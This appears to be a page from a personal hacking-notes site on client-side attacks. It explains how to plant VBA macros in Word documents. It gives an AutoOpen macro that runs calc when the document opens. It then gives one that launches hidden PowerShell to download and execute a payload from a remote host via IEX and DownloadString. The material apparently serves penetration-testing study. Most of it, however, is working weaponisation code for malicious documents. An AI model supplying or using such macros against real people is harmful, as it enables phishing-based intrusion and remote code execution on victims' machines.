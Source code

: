 ```yaml
---
title: Microsoft Office Macros
category: Client Side Attacks
order: 2
---
```


# Visual Basic for Applications (VBA) Macro

VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance or augment functionality in Word and Excel for data processing etc. 

VBA is not all that different from VBScript, so it's not too difficult to use the `wscript.shell object`.


> **Note**: The file must be saved in `.doc` format due inside `.docx` files cannot save macros.

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

![Macro](/hackingnotes/images/macro-calc.png)

> **Note**: To force the macro to trigger automatically when the document is opened, use the name`AutoOpen()`.

## Executing a Powershell Payload

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""

End Sub
```
